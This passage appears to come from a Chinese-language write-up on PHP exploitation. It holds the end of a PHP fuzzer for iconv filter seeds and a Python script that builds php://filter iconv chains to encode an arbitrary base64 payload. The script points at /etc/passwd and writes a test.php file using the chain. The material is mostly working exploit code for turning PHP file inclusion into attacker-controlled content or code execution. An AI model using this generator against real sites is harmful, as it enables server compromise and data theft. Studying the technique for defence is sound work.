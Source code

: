```php
        }
        // $r_t = rand(1,999999);
        // $files = getseeds('./res/');
        // $r_t = $r_t % sizeof($files);
        // $seed = file_get_contents('./res/'.$files[$r_t]);
        $op_all = $op_all = getRandomSeedFromDir('./res/');
        # echo "[mutating from exist dic] ".$files[$r_t].": ".$seed."\n";
        continue;
    }
    else{
        $last_op = $op;
        $prev_str = $tmp_str;
        $op_all .= (($op_all == "")?'':'|').$op;

    }

}
?>
```

下面的test.py是链的生成程序，当你提供payload的base64字符串形式时，他会寻找每个字符hexcode对应的编码进行payload生成。

```python
file_to_use = "/etc/passwd"

#在这里放入你要生成的payload的base64形式：
base64_payload = "YWFh"

# generate some garbage base64
filters = "convert.iconv.UTF8.CSISO2022KR|"
filters += "convert.base64-encode|"
# make sure to get rid of any equal signs in both the string we just generated and the rest of the file
filters += "convert.iconv.UTF8.UTF7|"

for c in base64_payload[::-1]:
        filters += open('./res/'+(str(hex(ord(c)))).replace("0x","")).read() + "|" # 这里是使用对应字符的hexcode来寻找对应编码，你也可以采用下面的方式，因为fuzz生成器最后生成的结果是按字符名存储并没有hex编码
        # filters += open('./res/'+c).read() + "|"
        print("use "+ c + ":" +open('./res/'+c).read())
        # decode and reencode to get rid of everything that isn't valid base64
        filters += "convert.base64-decode|"
        filters += "convert.base64-encode|"
        # get rid of equal signs
        filters += "convert.iconv.UTF8.UTF7|"

filters += "convert.base64-decode"

final_payload = f"php://filter/{filters}/resource={file_to_use}"

with open('test.php','w') as f:
    f.write('<?php echo file_get_contents("'+final_payload+'");?>')
print(final_payload)
```
